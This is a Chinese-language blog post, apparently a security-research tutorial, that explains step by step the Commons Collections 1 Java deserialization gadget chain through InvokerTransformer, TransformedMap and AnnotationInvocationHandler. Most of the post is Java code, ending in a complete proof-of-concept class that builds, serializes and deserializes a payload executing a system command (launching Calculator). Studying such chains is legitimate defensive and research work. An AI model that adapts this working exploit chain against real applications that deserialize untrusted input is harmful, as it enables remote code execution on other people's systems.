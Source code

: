 # CommonsCollections1链详解


# CommonsCollections1链详解
jdk8源码下载
https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4
**漏洞触发点在**`org.apache.commons.collections.functors.InvokerTransformer`
其中的`transform()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142003386.png)

很明显的一个反射调用，其中`iMethodName、iParamTypes、iArgs`都是可控的变量，便可以调用任意方法和任意参数
看一下构造器是如何赋值的

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142005500.png)

构造一个简单的 payload 试试
`new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;}).transform(Runtime.getRuntime());`
``

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142007538.png)

找一个任意类调用`transforms()`方法的方法，这里选择`org.apache.commons.collections.map.TransformedMap`类的`checkSetValue()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)


![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)

`valueTransformer`变量可控

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)

但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)

再查看一下哪里调用了`checkSetValue()`方法，只有这一处

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)

`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
for(Map.Entry entry:transformedMap.entrySet()){  
    entry.setValue(r);
```

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)

接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)

这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);  
annotationInvocationhandleconstructor.setAccessible(true);  
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);
```
但是这里存在两个问题
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)

简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入
```java
Transformer[] transformers = new Transformer[]{  
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
还有一个问题，无法控制`setValue()`里面的参数值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png)

这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)

所以完善一下上面的`poc`
```java
Transformer[] transformers = new Transformer[]{
		new ConstantTransformer(Runtime.class),
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
于是完整的`poc`如下
```java
package org.example.CommonsCollections;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollection1 {  
    public static void main(String[] args) throws Exception{  
  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        chainedTransformer.transform(Runtime.class);  
        InvokerTransformer invokerTransformer =new  InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();  
        map.put(&#34;value&#34;,&#34;value&#34;);  
        Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,chainedTransformer); 
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);  
        AnnotationInvocationHandlerConstructor.setAccessible(true);  
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);  
        serialize(o);  
        unserialize(&#34;ser.bin&#34;);  
  
    }  
  
    public static void serialize(Object obj) throws Exception{  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String filename) throws Exception{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));  
        Object obj = ois.readObject();  
        return obj;  
  
    }  
}
```

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)

### 注
这里为什么要用`Target`
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`
因为`Target`中有值是`value`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)

这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)

`map.put(&#34;value&#34;,&#34;value&#34;);`
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件



---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/commonscollections1%E9%93%BE%E8%AF%A6%E8%A7%A3/  

